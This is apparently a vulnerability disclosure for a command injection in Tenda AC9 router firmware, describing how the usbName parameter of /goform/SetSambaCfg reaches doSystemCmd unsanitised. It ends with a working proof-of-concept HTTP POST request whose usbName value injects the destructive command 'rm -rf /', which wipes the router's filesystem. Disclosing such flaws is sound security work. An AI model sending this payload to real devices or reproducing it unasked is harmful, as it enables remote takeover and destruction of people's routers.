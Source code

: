 # Tenda AC9 V1.0 V15.03.05.14_multi Command Injection Vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, route /goform/SetSambaCfg has a Command Injection Vulnerability, which may lead to remote arbitrary code execution.
## Vulnerability Detail
In the /goform/SetSambaCfg back-end handler formSetSamba, the HTTP POST request parameters action and usbName are obtained by the function sub_2B9D4. When the content of the parameter "action" is "del", the parameter "usbName" is concatenated into doSystemCmd with a format string and then executed. An attacker can construct malicious parameters "action" and "usbName" to enable remote code execution.

![img](./img/SetSambaCfg.png)
## Poc
```py
POST /goform/SetSambaCfg HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

action=del&usbName=1; rm -rf /
```
